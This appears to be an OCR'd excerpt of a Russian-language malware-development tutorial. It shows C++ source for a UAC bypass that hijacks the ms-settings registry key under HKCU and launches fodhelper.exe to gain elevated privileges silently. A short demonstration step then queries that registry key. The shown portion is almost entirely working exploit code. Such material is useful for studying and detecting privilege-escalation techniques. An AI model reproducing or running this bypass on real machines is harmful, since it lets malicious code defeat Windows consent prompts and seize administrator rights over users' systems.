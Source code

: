 ```cpp
  // set the registry values
  stat = RegSetValueEx(hkey, "", 0, REG_SZ, (unsigned char*)cmd, strlen(cmd));
  printf(stat != ERROR_SUCCESS ? "failed to set reg value\n" : 
  "successfully set reg value\n");

  stat = RegSetValueEx(hkey, "DelegateExecute", 0, REG_SZ, (unsigned char*)
  del, strlen(del));
  printf(stat != ERROR_SUCCESS ? "failed to set reg value: DelegateExecute\n" 
  : "successfully set reg value: DelegateExecute\n");

  // close the key handle
  RegCloseKey(hkey);

  // start the fodhelper.exe program
  SHELLEXECUTEINFO sei = { sizeof(sei) };
  sei.lpVerb = "runas";
  sei.lpFile = "C:\\Windows\\System32\\fodhelper.exe";
  sei.hwnd = NULL;
  sei.nShow = SW_NORMAL;

  if (!ShellExecuteEx(&sei)) {
    DWORD err = GetLastError();
    printf (err == ERROR_CANCELLED ? "the user refused to allow privileges 
    elevation.\n" : 
    "unexpected error! error code: %ld\n", err);
  } else {
    printf("successfully create process =^..^=\n");
  }

  return 0;
}
```

### демонстрация

Давайте посмотрим, как это работает. Сначала проверим реестр:    

```powershell
reg query "HKCU\Software\Classes\ms-settings\Shell\open\command"
```

![av-evasion](./images/101/2023-06-20_23-08_1.png){width="80%"}      
